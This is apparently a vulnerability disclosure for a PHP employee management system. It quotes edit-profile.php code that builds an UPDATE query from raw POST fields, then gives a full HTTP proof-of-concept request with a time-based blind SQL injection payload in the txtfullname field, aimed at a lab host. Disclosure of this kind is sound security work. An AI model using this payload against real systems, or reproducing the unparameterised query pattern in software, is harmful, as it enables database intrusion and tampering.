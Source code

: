 ### Vulnerability file address

`Employee/edit-profile.php` from line 8,The `$_POST['txtfullname']` parameter is controllable,, and the `$_POST['txtfullname']` is not protected from sql injection, line 8`$sql = " update tblemployee set fullname='".$_POST['txtfullname']."',sex='".$_POST['cmdsex']."',dob='".$_POST['txtdob']."',phone='".$_POST['txtphone']."',address='".$_POST['txtaddress']."',qualification='".$_POST['txtqualification']."',dept='".$_POST['cmddept']."',employee_type='".$_POST['cmdemployeetype']."',date_appointment='".$_POST['txtappointment']."',basic_salary='".$_POST['txtbasic_salary']."',gross_pay='".$_POST['txtgross_pay']."' where email='$email'";` ,line 9`mysqli_query($conn, $sql)`Line 15 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php');
if (empty($_SESSION['login_email'])) {
    header("Location: ../Account/login.php");
}

if (isset($_POST["btnedit"])) {
    $sql = " update tblemployee set fullname='".$_POST['txtfullname']."',sex='".$_POST['cmdsex']."',dob='".$_POST['txtdob']."',phone='".$_POST['txtphone']."',address='".$_POST['txtaddress']."',qualification='".$_POST['txtqualification']."',dept='".$_POST['cmddept']."',employee_type='".$_POST['cmdemployeetype']."',date_appointment='".$_POST['txtappointment']."',basic_salary='".$_POST['txtbasic_salary']."',gross_pay='".$_POST['txtgross_pay']."' where email='$email'";
    if (mysqli_query($conn, $sql)) {
        header("Location: profile.php");
    } else {
        $_SESSION['error'] = 'Editing Was Not Successful';
    }
}
```

### POC

```http
POST /CMS/php/employee_akpoly/Employee/edit-profile.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 243
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Employee/edit-profile.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

txtfullname='||(SELECT 0x55464841 WHERE 5975=5975 AND (SELECT 1479 FROM (SELECT(SLEEP(5)))kHxj))||'&cmdsex=Male&txtphone=08067361023&txtdob=12/9/1980&txtaddress=12 Ikono rd&txtqualification=Msc&cmddept=Bursary&cmdemployeetype=Academic&txtappointment=9/9/2023&txtbasic_salary=21000&txtgross_pay=25000&btnedit=
```

### Attack results pictures

![image-20250128194648951](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501281946007.png)